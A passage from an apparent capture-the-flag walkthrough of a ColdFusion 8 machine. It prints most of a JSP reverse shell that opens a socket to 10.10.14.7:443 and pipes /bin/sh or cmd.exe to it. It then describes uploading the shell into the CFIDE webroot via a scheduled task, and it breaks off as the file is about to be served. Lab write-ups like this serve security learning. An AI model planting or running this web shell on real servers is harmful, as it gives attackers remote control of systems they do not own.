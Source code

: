 ``` bash
      public void run()
      {
        BufferedReader w6  = null;
        BufferedWriter eRg = null;
        try
        {
          w6  = new BufferedReader( new InputStreamReader( this.cb ) );
          eRg = new BufferedWriter( new OutputStreamWriter( this.b0 ) );
          char buffer[] = new char[8192];
          int length;
          while( ( length = w6.read( buffer, 0, buffer.length ) ) > 0 )
          {
            eRg.write( buffer, 0, length );
            eRg.flush();
          }
        } catch( Exception e ){}
        try
        {
          if( w6 != null )
            w6.close();
          if( eRg != null )
            eRg.close();
        } catch( Exception e ){}
      }
    }
  
    try
    {
      String ShellPath;
  if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
    ShellPath = new String("/bin/sh");
  } else {
    ShellPath = new String("cmd.exe");
  }
  
      Socket socket = new Socket( "10.10.14.7", 443 );
      Process process = Runtime.getRuntime().exec( ShellPath );
      ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
     ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
} catch( Exception e ) {}
%>
```

We configure a scheduled task to upload it to:

```
C:\ColdFusion8\wwwroot\CFIDE\reverse.jsp
```

![Task creation](screenshots/web_creating_a_task.png)  

Serve the file with Python:
